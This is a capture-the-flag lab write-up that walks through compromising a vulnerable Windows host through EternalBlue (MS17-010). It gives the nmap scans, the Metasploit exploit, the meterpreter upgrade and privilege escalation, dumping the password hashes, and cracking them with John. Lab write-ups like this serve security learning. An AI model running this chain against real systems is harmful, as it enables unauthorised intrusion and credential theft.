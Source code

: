 # Eternal Blue
> Author: daniboomberger
> Date: 12.10.2020

## What is Eternal Blue?
> Eternal Blue is Vulnerability could lead to allowing the attacker to do a remote code execution. The attacker would send a sepcially crafted message to SMBv1 Server. SMB stands for Server Message Block, which is a communication protocol for providing shared access to files, printer and serial ports between nodes on a network. The Vulnerability was foud by the NSA (National Security Agency).
(Information Resources: Microsoft: https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010
                        Wikipedia: https://en.wikipedia.org/wiki/Server_Message_Block)

## Recon

> **Scan the machine.**
> - `nmap -sC -sV <IP_ADDRESS>`
> - `-sC` does mean the same as `--script=default`
> - `-sV` Probe open ports to determine service/version info
> - you will get a output file (nmap.txt), which can be read
>
> **How many ports are open with a port number under 1000?**
> - `nmap -p0-1000 <IP_ADDRESS>`
> - `p` specify port (or port range)
> - The output of nmap was three ports are open under this range
>
> **What is this machine vulnerable to?**
> - `nmap --script vuln <IP_ADDRESS>`
> - It scans the host for vulnerabilities
> - It will show the information of a vulnerability called `ms17-010` the so called eternal blue exploit
> - INFO: I ran these specific nmap commands to have some sort of training (nmap training)...

## Gain Access

> **Start Metasploit**
> - `msfconsole -q`
> - `-q` this prevents the banner to appear
> - Will open metasploit
>
> **Find the exploitation code we will run against the machine**
> - `search ms17-010`
> - This will let you search the exploit in metasploit (search term we got from nmap vuln scan)
> - There will appear some exploits after the search term the correct one will be
> - `exploit/windows/smb/ms17_010_eternalblue` this is the one we are looking for
> - `use exploit/windows/smb/ms17_010_eternalblue`
> - That is to use the exploit that we've searched
> - You could also read the id in the search and run `use <ID>`
>
> **Show options and set the one required value. What is the name of this value?**
> - `show options`
> - It will show a list of options and if they are required and also show there value.
> - You have to search the option that is required, but has no value set `RHOSTS`
> - `set RHOSTS <IP_ADDRESS>`
> - This will set `RHOSTS` to the IP Address of our target
> 
> **Run the exploit**
> - `run` or `exploit`
> - One of these two commands will run the exploit (ms17-010)
> - After it's successfully finished there will appear a DOS Shell
> - If everything is the same you have to put the shell in the background `CTRL+Z`

## Escalate

> - **Research online how to convert a shell to meterpreter shell in metasploit. Post Module Name?**
> - I searched with the term `shell to meterpreter` (I know big brain me)
> - So I found this path in the World Wide Web `post/multi/manage/shell_to_meterpreter`
> - And No I don't go back and provide the link, because I wrote this writeup after I finished the Room
> 
> **Select this (use MODULE_PATH). Show options, what option are we required to change?**
> - `show options`
> - This will provide us a options list with all options
> - Search the required field that has no Value in it `SESSION`
>
> **Set the required option, you may need to list all of the sessions to find your target here.**
> - `sessions`
> - That command shows us a list of all current sessions
> - `set SESSION <ID>`
> - Set the <ID> to ID of the Windows shell (ID will probably be 1)
> 
> **Run! If this doesn't work, try completing the exploit from the previous task once more.**
> - `run` or `exploit`
> - Will run this `post/multi/manage/shell_to_meterpreter`
> - `getsystem`
> - If you run this command your return should be `NT AUTHORITY\SYSTEM`
> - `shell`
> - This command would open the DOS shell and in this shell you could run the command `whoami` to check
> 
> **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column)**
> **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time**

## Cracking

> **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **
> - `hashdump`
> - Command will provide you with users and there password hashes
> - Three Users will appear (Administrator, Guest and Jon) `Jon` it is
> 
> **Copy this password hash to a file and research how to crack it. What is the cracked password?**
> - `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt password.txt`
> - Windows stores hashes in NTLM so thats why we use `--format=NT`
> - The `--wordlist=/usr/share/wordlists/rockyou.txt` is to provide rockyou.txt (your path could be different)
> - And password.txt is a created file by with the hashed password inside

## Find flags!
> **Search the flags in the Windows System**
> - `search -f flag*.txt`
> - A magic command from meterpreter that will provide you with all three flags and there path

## Conclusion
> I really liked the box and it was fun to work around with metasploit. I'm actually a beginner and did not start long ago and it was totally good explained. As a tip, always try to understand what you are doing and not only copy paste the commands.

